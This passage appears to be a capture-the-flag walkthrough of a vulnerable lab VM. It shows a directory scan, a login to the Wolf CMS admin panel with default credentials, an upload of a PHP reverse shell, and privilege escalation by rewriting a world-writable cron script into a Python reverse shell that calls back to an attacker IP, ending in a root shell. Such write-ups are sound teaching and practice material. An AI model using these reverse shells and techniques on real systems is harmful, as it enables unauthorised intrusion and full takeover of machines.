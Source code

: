 ```
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Mar  3 08:21:02 2017
DOWNLOADED: 4612 - FOUND: 7
```
dirb found 7 directory and 2 of them were enable directory listing but no one was interesting.
I goolgled for admin page of wolfcms and found [this](https://www.wolfcms.org/forum/topic2034.html) quite useful. The discussion told me that there are 2 possible admin page **/admin** and **/?admin** depend on mod_rewrite was enable or not.
I found http://192.168.159.131/wolfcms/?admin was accessible and for a couple of trying I successfully authenticate by using admin:admin.

There was a page /wolfcms/?/admin/plugin/file_manager to manage file including upload shell.
I used [this reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to reverse shell to my listening netcat.
When upload file had been completed. The file will be store in /wolfcms/public/
To listening reverse shell
```
nc -v -n -l -p 1234
```

Successful exploit when I clicked on http://192.168.159.131/wolfcms/public/php-reverse-shell.php.

## Escalation
I noticed that in /var/www there is a file named **connect.py** and it's content was interesting.
```
$ ls -al
total 24
drwxrwxrwx  3 root root 4096 Dec  6  2015 .
drwxr-xr-x 13 root root 4096 Dec  6  2015 ..
-rwxrwxrwx  1 root root  109 Dec  5  2015 connect.py
-rw-r--r--  1 root root   21 Dec  5  2015 index.php
-rw-r--r--  1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x  5 root root 4096 Dec  5  2015 wolfcms
$ cat connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

I just guess it was a cron job and it could be modified by anyone!!!.
So I would like to edit python file by change it to reverse shell and if it run I will got shell with root privilege.
```
$ cat connect.py
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.159.3",8889))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
I waited for a few seconds.
```
root@BOEING:~# nc -nvlp 8889
listening on [any] 8889 ...
connect to [192.168.159.3] from (UNKNOWN) [192.168.159.131] 60617
/bin/sh: 0: can't access tty; job control turned off
# id 
uid=0(root) gid=0(root) groups=0(root)
```
